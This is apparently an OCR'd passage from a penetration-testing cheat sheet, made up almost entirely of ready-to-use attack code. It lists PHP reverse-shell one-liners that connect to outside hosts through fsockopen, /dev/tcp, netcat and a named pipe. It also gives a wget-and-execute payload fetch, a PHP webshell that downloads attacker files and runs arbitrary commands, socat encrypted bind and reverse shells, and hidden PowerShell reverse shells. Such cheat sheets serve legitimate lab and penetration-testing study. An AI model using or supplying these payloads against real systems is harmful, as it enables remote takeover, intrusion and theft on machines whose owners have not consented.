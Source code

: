           $sock=fsockopen("10.10.14.11", 4445);exec("/bin/sh -i <&3 >&3 2>&3");  
          exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.119.186/4444 0>&1'");  
          <?php $sock = fsockopen("192.168.119.186",4444); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>  
          <?php system(“wget http://192.168.119.186/phpshellFull.php -O /tmp/; chmod +x /tmp/phpshellFull.php; php /tmp/phpshellFull.php”); ?>  
          <?php passthru("nc -e /bin/sh 1.2.3.4 8080"); ?>
	  <?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.119.186 4444 >/tmp/f'); ?>
            
            Try browser access with /file and /file.php  
    - Advanced Content Inject:  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php      
            - For Windows:  https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php     
    - Basic Webshell for upload/execution:  

            <?php
              if (isset($_REQUEST['fupload'])) {
                file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.19:8000/" . $_REQUEST['fupload']));
              };
              if (isset($_REQUEST['fexec'])) {
                echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
              };
            ?>
            
           - Then:
                http://10.10.10.9/catch.php?fupload=nc64.exe  
                http://10.10.10.9/catch.php?fexec=nc64.exe 10.10.16.10 1234 -e cmd.exe  
                

#### Socat Encrypted Shells:
    Bind Shell:
        Generate bind.pem and transfer to victim machine:
            openssl req -newkey rsa:2048 -nodes -keyout bind.key -x509 -days 1000 -subj '/CN=www.mydom.com/O=My Company Name LTD./C=US' -out bind.crt
            cat bind.key bind.crt > bind.pem
        Victim: socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:/bin/bash
            Windows:  LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:'cmd.exe',pipes
        Attacker: socat - OPENSSL:192.168.168.130:4443,verify=0
    Reverse Shell:
        Generate bind.pem on attacker machine.
        Attacker: socat -d -d OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork STDOUT
        Victim: socat OPENSSL:192.168.168.1:4443,verify=0 EXEC:/bin/bash
            Windows: socat OPENSSL:192.168.168.1:4443,verify=0 EXEC:'cmd.exe',pipes

### WINDOWS SPECIFIC:
    One-liners:
        Powershell:
            powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
            powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"